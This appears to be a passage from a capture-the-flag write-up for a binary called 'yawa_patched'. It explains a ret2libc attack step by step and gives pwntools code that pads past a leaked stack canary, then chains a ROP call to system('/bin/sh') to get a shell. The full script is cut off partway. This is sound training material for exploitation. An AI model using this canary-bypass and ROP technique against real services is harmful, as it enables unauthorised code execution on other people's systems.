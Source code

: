 
LibC base address : 0x7ffff7c00000
Return Address : 0x7ffff7c29d90

Offsets of the Return Address = LibC base address - Return Address = 0x29d90

Now the base address of LibC has been gained. Every information needed for the Ret-2-LibC attack has been acquired. The payload will be

1. Padding up until Canary
2. Canary
3. Padding up until Return Address
4. Return gadget (due to stack allignment issues)
5. pop rdi; ret gadget
6. 'binsh' string location appended
7. libC system address

steps 5-7 for the payload can be easily done with `pwntools` ROP chain function. After send the payload. We need to break out of the loop and let `main()` function returns to execute our payload. To break the loop we just enter input other than `1` and `2`. The code implementation as follows:-

##### Code

```python
rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```

##### Execution

![Flag](/assets/flag.png)

##### Full Script

```python

from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./yawa_patched", )
elf = context.binary = ELF("./yawa_patched", checksec=False)

libc = ELF('./libc.so.6')

# 0x7fffffffdce8 last in stack can reach

context.log_level = 'info'
offset_canary = 88
offset_to_return = 104


io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
```